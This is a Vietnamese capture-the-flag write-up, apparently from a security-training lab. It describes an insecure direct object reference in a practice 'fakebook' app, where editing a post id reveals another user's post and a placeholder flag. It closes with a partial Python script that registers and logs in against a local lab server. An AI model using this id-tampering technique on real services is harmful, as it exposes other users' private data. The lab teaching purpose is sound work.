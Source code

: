 chương trình cho chúng ta tạo tài khoản và đăng nhập rồi đăng bài lên đó

**chúng ta có thể thấy:**

<ul>
    <li>trong case <b>list_posts</b> ứng dụng sẽ truy vấn post_id, public thông qua <b>$user_id</b> mà biến này chúng ta có thể kiểm soát thông qua <b>session</b> -> <b>untrusted data</b>
    </li>
    <li>trong case <b>read</b> ứng dụng sẽ truy vấn content, public, author_id thông qua <b>$_GET['id']</b> mà biến này chúng ta có thể kiểm soát -> <b>untrusted data</b>
    </li>
</ul>
những case này không có cơ chế kiểm soát dữ liệu mà chúng ta gửi vào

mình đăng ký và đăng nhập vào fakebook rồi mình đăng bài viết

![image](https://hackmd.io/_uploads/Hy26c6GKa.png)

![image](https://hackmd.io/_uploads/H1EAp6zFa.png)

và lần lượt nó sẽ gọi đến list_post và read để hiện ra các bài post của mình

![image](https://hackmd.io/_uploads/rJJx26fKT.png)

### - Khai thác:

crush của mình chơi fakebook chước mình nên **id** sẽ ít hơn 5 và mình sẽ thử thay đổi trường id này

![image](https://hackmd.io/_uploads/HyMmapzta.png)

mình nhập id là 3 và có được flag: **CBJS{FAKE_FLAG_FAKE_FLAG}**

mình viết lại script khai thác:

```python
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'http://127.0.0.1:24001'

session = requests.Session()
# đăng ký tài khoản
data = {
    'username': 'cuong',
    'password': 123
}

response = session.post(
    url + '/index.php?action=register',
    data=data,
    verify=False,
)

print(response.text) # verify

# đăng nhập tài khoản
response = session.post(
    url + '/index.php?action=login',
    data=data,
    verify=False
)
```